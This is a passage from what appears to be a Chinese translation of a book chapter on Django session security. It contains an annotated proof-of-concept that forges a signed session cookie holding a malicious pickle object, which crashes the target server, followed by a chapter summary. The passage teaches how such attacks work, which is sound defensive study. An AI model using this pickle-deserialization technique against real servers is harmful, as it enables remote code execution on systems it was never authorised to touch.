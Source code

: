 ```py
$ python manage.py shell
>>> import sys
>>> from django.contrib.sessions.serializers import PickleSerializer
>>> from django.core import signing
>>> import requests
>>> 
>>> class MaliciousCode:
...     def __reduce__(self):                                              # ❶
...         return sys.exit, ()                                            # ❷
... 
>>> session_state = {'malicious_code': MaliciousCode(), }
>>> sessionid = signing.dumps(                                             # ❸
...     session_state,                                                     # ❸
...     salt='django.contrib.sessions.backends.signed_cookies',            # ❸
...     serializer=PickleSerializer)                                       # ❸
>>> 
>>> session = requests.Session()
>>> session.cookies['sessionid'] = sessionid
>>> session.get('https:/./vulnerable.alice.com/')                           # ❹
Starting new HTTPS connection (1): vulnerable.com
http.client.RemoteDisconnected: Remote end closed connection without response# ❺
```

❶ Pickle 将此方法称为反序列化。

❷ Django 用这行代码自杀。

❸ Django 的签名模块序列化并哈希 Mallory 的恶意代码。

❹ 发送请求

❺ 收不到响应

将`SESSION_ENGINE`设置为`django.contrib.sessions.backends.signed_cookies`配置 Django 使用基于 cookie 的会话引擎。

## 摘要

+   服务器使用`Set-Cookie`响应头在浏览器上设置会话 ID。

+   浏览器使用`Cookie`请求头将会话 ID 发送给服务器。

+   使用`Secure`、`Domain`和`Max-Age`指令来抵抗在线攻击。

+   Django 本地支持五种存储会话状态的方式。

+   Django 本地支持六种缓存数据的方式。

+   重放攻击可以滥用基于 cookie 的会话。

+   远程代码执行攻击可以滥用 pickle 序列化。

+   Django 使用`SECRET_KEY`设置进行键控哈希，而不是加密。

